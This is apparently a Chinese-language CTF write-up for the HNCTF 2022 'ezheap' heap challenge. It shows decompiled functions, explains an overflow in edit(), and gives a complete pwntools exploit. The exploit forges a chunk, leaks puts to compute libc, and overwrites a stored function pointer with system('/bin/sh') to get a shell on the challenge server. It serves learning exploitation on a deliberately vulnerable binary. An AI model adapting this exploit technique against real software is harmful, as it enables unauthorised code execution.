




 [[HNCTF 2022 WEEK4](https://www.nssctf.cn/problem/3104)]ezheap

```shell
[*] '/home/bamuwe/ezheap/ezheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

> $checksec ./ezheap

```shell
Easy Note.
1.Add.
2.Delete.
3.Show.
4.Edit.
Choice:
```

> 运行截图

```c
int add()
{
  __int64 v0; // rbx
  __int64 v1; // rax
  int v3; // [rsp+0h] [rbp-20h]
  signed int v4; // [rsp+4h] [rbp-1Ch]

  puts("Input your idx:");
  v3 = getnum();
  puts("Size:");
  v4 = getnum();
  if ( v4 > 0x100 )
  {
    LODWORD(v1) = puts("Invalid!");
  }
  else
  {
    heaplist[v3] = malloc(0x20uLL);
    if ( !heaplist[v3] )
    {
      puts("Malloc Error!");
      exit(1);
    }
    v0 = heaplist[v3];
    *(v0 + 16) = malloc(v4);
    *(heaplist[v3] + 32LL) = &puts;             // 预存的puts()地址，考虑泄露/更改
    if ( !*(heaplist[v3] + 16LL) )
    {
      puts("Malloc Error!");
      exit(1);
    }
    sizelist[v3] = v4;
    puts("Name: ");
    if ( !read(0, heaplist[v3], 0x10uLL) )	//限制name堆块只能输入0x10
    {
      puts("Something error!");
      exit(1);
    }
    puts("Content:");
    if ( !read(0, *(heaplist[v3] + 16LL), sizelist[v3]) )
    {
      puts("Error!");
      exit(1);
    }
    puts("Done!");
    v1 = heaplist[v3];
    *(v1 + 24) = 1;
  }
  return v1;
}
```

> 漏洞函数1_add()

```c
__int64 show()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  if ( v1 <= 0xF && heaplist[v1] )
  {
    (*(heaplist[v1] + 32LL))(heaplist[v1]);		//通过调用堆上预存的puts()地址实现输出打印
    return (*(heaplist[v1] + 32LL))(*(heaplist[v1] + 16LL));
  }
  else
  {
    puts("Error idx!");
    return 0LL;
  }
}
```

> 漏洞函数2_show()

```c
ssize_t edit()
{
  unsigned int v1; // [rsp+8h] [rbp-8h]
  unsigned int nbytes; // [rsp+Ch] [rbp-4h]

  puts("Input your idx:");
  v1 = getnum();
  puts("Size:");
  nbytes = getnum();
  if ( v1 <= 0x10 && heaplist[v1] && nbytes <= 0x100 )	// 只做了<=0x100的限制，可以溢出
    return read(0, *(heaplist[v1] + 16LL), nbytes);
  puts("Error idx!");
  return 0LL;
}
```

> 漏洞函数3_edit()

```python
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)
```

> 交互函数

程序逻辑：

1. `add()`时会添加两个`chunk`，`chunk1`存贮`name`，正文`chunk`和`puts()`的地址，即`0x0a27656d616e2762(name)`，`0x0000561b7af6c040`，`0x00007f483b7215d0(puts_addr)`另`chunk2`存贮`text`

   

2. `show()`会调用`chunk1`中预存的`puts()`构造`puts(chunk2_addr)`实现打印输出

   

利用思路：

1. `edit()`宽松的输入检测，可以更改堆块大小，构造`fake_chunk`

   ```python
   add(0,0x18,b'0'*0x10,b'0000')
   add(1,0x10,'1111',b'1111')
   add(2,0x10,'2222',b'2222')
   
   edit(0,0x20,b'A'*0x18+p8(0x81))
   show(0)
   free(1)
   ```

   

   > 成功构造出fake_chunk

2. 可以构造堆溢出，溢出`\x00`截断，填充并泄露`puts()`的地址

   ```python
   add(4,0x70,'4444',b'4'*(0x20-1)+b'-')			#申请回fake_chunk，填充堆空间，添加标志位
   show(4)											#查看堆上内容
   io.recvuntil(b'-')
   puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
   # lib = LibcSearcher('puts',puts_addr)			#remote
   lib_base = puts_addr-lib.sym['puts']
   sys_addr = lib_base+lib.sym['system']
   # lib_base = puts_addr-lib.dump('puts')
   # sys_addr = lib_base+lib.dump('system')
   success('&system=>{}'.format(hex(sys_addr)))
   success('&puts=>{}'.format(hex(puts_addr)))
   ```

   

3. 通过`edit()`修改，利用堆溢出修改其他`chunk`

   ```python
   edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
   ```

   

   > 修改后，可以与上面比较一下

4.利用`show()`得到`shell`

```python
show(2)
```

___

exp:

```python
#Ubuntu GLIBC 2.23-0ubuntu11.3

from pwn import *
from LibcSearcher import LibcSearcher
context.log_level = 'debug'
elf = ELF('./ezheap')
# io = gdb.debug('./ezheap')
io = remote('node5.anna.nssctf.cn',26829)
# lib = ELF('/home/bamuwe/pwn_tools/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
def add(idx,size,name,text):
    io.sendlineafter(b'Choice: \n',b'1')    
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.sendlineafter(b'Name: \n',str(name))
    io.sendafter(b'Content:\n',text)
    
def free(idx):
    io.sendlineafter(b'Choice: \n',b'2')
    io.sendlineafter(b'idx:\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'Choice: \n',b'3')    
    io.sendlineafter(b'idx:\n',str(idx))
    
def edit(idx,size,text):
    io.sendlineafter(b'Choice: \n',b'4')
    io.sendlineafter(b'idx:\n',str(idx))
    io.sendlineafter(b'Size:\n',str(int(size)))
    io.send(text)

add(0,0x18,b'0'*0x10,b'0000')
add(1,0x10,'1111',b'1111')
add(2,0x10,'2222',b'2222')

edit(0,0x20,b'A'*0x18+p8(0x81))
show(0)
free(1)
add(4,0x70,'4444',b'4'*(0x20-1)+b'-')
show(4)
io.recvuntil(b'-')
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib = LibcSearcher('puts',puts_addr)
lib_base = puts_addr-lib.dump('puts')
sys_addr = lib_base+lib.dump('system')
success('&system=>{}'.format(hex(sys_addr)))
success('&puts=>{}'.format(hex(puts_addr)))

edit(4,0x100,b'a'*0x40+p64(0)+p64(0x31)+b'/bin/sh\x00'+p64(0)*2+p64(0x1)+p64(sys_addr))
show(2)

io.interactive()
```


